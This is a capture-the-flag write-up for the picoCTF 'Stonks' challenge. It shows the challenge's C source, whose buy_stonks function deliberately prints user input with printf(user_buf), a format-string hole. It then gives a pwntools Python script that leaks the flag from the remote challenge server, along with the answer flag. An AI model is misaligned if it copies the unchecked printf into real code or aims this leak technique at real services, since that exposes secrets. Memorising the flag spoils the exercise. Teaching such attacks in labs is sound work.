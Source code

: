 # Stonks

> Solution: When you [connect](./connect) to the server, it prompts you like this.
```
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio

```

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
	int shares;
	char symbol[MAX_SYM_LEN + 1];
	struct Stonks *next;
} Stonk;

typedef struct Portfolios {
	int money;
	Stonk *head;
} Portfolio;

int view_portfolio(Portfolio *p) {
	if (!p) {
		return 1;
	}
	printf("\nPortfolio as of ");
	fflush(stdout);
	system("date"); // TODO: implement this in C
	fflush(stdout);

	printf("\n\n");
	Stonk *head = p->head;
	if (!head) {
		printf("You don't own any stonks!\n");
	}
	while (head) {
		printf("%d shares of %s\n", head->shares, head->symbol);
		head = head->next;
	}
	return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
	if (shares < 1) {
		return NULL;
	}
	Stonk *stonk = malloc(sizeof(Stonk));
	stonk->shares = shares;

	int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
	for (int i = 0; i <= MAX_SYM_LEN; i++) {
		if (i < AI_symbol_len) {
			stonk->symbol[i] = 'A' + (rand() % 26);
		} else {
			stonk->symbol[i] = '\0';
		}
	}

	stonk->next = NULL;

	return stonk;
}

int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}

Portfolio *initialize_portfolio() {
	Portfolio *p = malloc(sizeof(Portfolio));
	p->money = (rand() % 2018) + 1;
	p->head = NULL;
	return p;
}

void free_portfolio(Portfolio *p) {
	Stonk *current = p->head;
	Stonk *next = NULL;
	while (current) {
		next = current->next;
		free(current);
		current = next;
	}
	free(p);
}

int main(int argc, char *argv[])
{
	setbuf(stdout, NULL);
	srand(time(NULL));
	Portfolio *p = initialize_portfolio();
	if (!p) {
		printf("Memory failure\n");
		exit(1);
	}

	int resp = 0;

	printf("Welcome back to the trading app!\n\n");
	printf("What would you like to do?\n");
	printf("1) Buy some stonks!\n");
	printf("2) View my portfolio\n");
	scanf("%d", &resp);

	if (resp == 1) {
		buy_stonks(p);
	} else if (resp == 2) {
		view_portfolio(p);
	}

	free_portfolio(p);
	printf("Goodbye!\n");

	exit(0);
}

```

Viewing the [source code](./vuln.c), function `buy_stonks` at line 91, you can easily make out that this is clearly vulnerable to a [format string attack](https://owasp.org/www-community/attacks/Format_string_attack). If you choose `1) Buy some stonks!` from the prompt, it asks you for your api key. Testing a bunch of format strings I found that after the 15th DWORD, it actually starts to leak the flag. I tried `%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x`. To actually exploit the vulnerability, I wrote a [python script](./solution.py).

```python
#!/usr/bin/env python3

import pwn

host, port = "mercury.picoctf.net", 33411
flag = []
flag_ascii = []
flag_offset_dword = 15
pwn.context.log_level = 'critical'

bad_chars = ['\x00', 'Î', 'ÿ']

for i in range(flag_offset_dword, 25):
	s = pwn.remote(host, port)
	s.sendlineafter("2) View my portfolio\n", "1")
	s.sendlineafter("What is your API token?\n", f'%{i}$p')
	s.recvuntil("Buying stonks with token:\n")
	response = s.recvline()
	try:
		flag_so_far = pwn.p32(int(response.decode(), base=16))
		flag_ascii += flag_so_far
	except SyntaxError:
		pass

for i in flag_ascii:
	flag.append(str(chr(int(i))))

print(''.join(flag).replace('\x00', '').replace('Î', '').replace('ÿ', '')) # picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}
```

And there you go! You get the flag!!!

>picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}